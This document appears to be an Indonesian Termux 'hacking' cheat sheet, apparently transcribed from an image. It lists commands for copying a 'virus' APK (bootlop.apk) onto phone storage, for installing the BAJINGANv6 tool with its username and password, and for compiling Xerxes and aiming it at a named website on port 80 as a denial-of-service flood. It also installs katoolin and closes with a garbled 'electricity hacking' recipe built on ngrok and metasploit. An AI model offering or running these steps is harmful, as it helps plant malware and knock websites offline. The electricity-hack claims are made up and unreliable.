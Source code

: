 Cara menyimpan virus
$ ls
$ cd virus
$ cd BOOTLOP
$ ls
$ cp -f bootlop.apk /storage/emulated/0

   **Instal Bajingan V6**
$ pkg install git
$ git clone https://github.com/DarknessCyberTeam/BAJINGANv6
$ ls
$ cd BAJINGANv6
$ sh BAJINGAN.sh
Username: BAJINGAN
Password: Gans


   ** Xerxes **
$ apt install git 
$ apt install clang 
$ git clone https://github.com/zanyarjamal/xerxes 
$ ls 
$ cd xerxes 
$ ls 
$ clang xerxes.c -o xerxes 
$ ls 
$ ./xerxes (nama website) 80

    **INSTALL KATOOLIN**

$ pkg update
$ pkg upgrade
$ pkg install git
$ pkg install python2
$ pkg install nano
$ pkg install gnupg
$ git clone https://github.com/LionSec/katoolin.git
$ ls
$ cd katoolin 
$ ls
$ python2 katoolin.py
$ nano katoolin.py

      ** Cara Hack Listrik **
   (SESSION 1)
 *buka ngrok
   (SESSION 2)
$ apt update && apt update
$ pkg install git
$ pkg install python2
$ pkg install nano
$ pkg install gnupg
* git nya sama seperti install katolin di atas
$ ls
$ cd katoolin
$ ls
* lalu kita ketik nano duluan
$ nano katoolin.py
* maka disitu kita cari pertengahan nya
* lalu kasih kode listrik nya
* lalu tekan ctrl x & tekan y / volume bawah lalu x tekan y
$ python2 katoolin.py
   * harus root dan sudah install metasploit & ngrok
    *kurang jelas? hub saya di WA !
  